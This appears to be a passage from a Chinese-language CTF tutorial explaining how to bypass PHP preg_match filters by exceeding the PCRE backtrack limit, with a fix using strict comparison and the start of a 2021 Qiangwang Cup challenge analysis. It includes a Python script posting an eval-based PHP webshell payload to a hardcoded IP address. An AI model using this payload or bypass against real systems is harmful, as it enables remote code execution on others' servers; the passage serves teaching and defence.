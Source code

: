 `<?php phpinfo();?>//aaaaaa`，执行过程如下：

PCRE 的参数回溯次数限制`pcre.backtrack_limit`默认为`1000000`。

如果回溯次数超过限制，`preg_match()`返回`false`，表示只执行失败。

PCRE 回溯次数限制绕过的原理是通过发送超长字符串，使正则执行失败，最后绕过目标对 PHP 语言的限制。

- 贪婪模式
- 对返回值的判断不够严谨

```python
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

### 修复建议

PHP 文档上有关于`preg_match`的警告，应使用全等`===`来测试函数的返回值。

```php
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

[PCRE库](https://www.pcre.org/)

[PHP正则表达式文档](https://www.php.net/manual/zh/book.pcre.php)

<https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html>

## 经典赛题分析

### 2021-强网杯-寻宝

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

// 过滤函数，将黑名单字符替换为空
function filter($string)
{
    $filter_word = array('php', 'flag', 'index', 'KeY1lhv', 'source', 'key', 'eval', 'echo', '\$', '\(', '\.', 'num', 'html', '\/', '\,', '\'', '0000000');
    $filter_phrase = '/' . implode('|', $filter_word) . '/';
    return preg_replace($filter_phrase, '', $string);
}

if ($ppp) {
    unset($ppp);
}
$ppp['number1'] = "1";
$ppp['number2'] = "1";
```